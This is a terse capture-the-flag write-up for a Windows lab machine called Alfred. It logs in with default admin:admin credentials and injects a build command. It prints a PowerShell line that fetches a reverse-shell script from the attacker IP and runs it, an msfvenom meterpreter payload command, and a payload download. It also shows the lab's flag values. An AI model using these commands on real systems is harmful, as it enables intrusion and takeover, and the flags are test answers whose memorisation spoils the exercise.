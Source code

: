 # Alfred 

> VOiD | Monday 09 August 2021 08:55:30 PM IST

My IP : 10.17.6.109
Target IP : 10.10.221.246

# PORT 80 
Nothing specical

# PORT 8080
```bash

valid credintinals
admin:admin

go to projects 
then to configure 
then under bulid enter the comand to run
then go back and build
command will run
powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.6.109:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.6.109 -Port 4444
shell accuried

PS C:\Users\bruce\Desktop> cat user.txt
79007a09481963edf2e1321abd9ae2a0

```

upgrading shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.17.6.109 LPORT=8888 -f exe -o shell.exe

copying shell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.17.6.109:8080/shell.exe','shell.exe')"


getsystem
migrate to services.exe

cat root.txt 
dff0f748678f280250f25a45b8046b4a

```


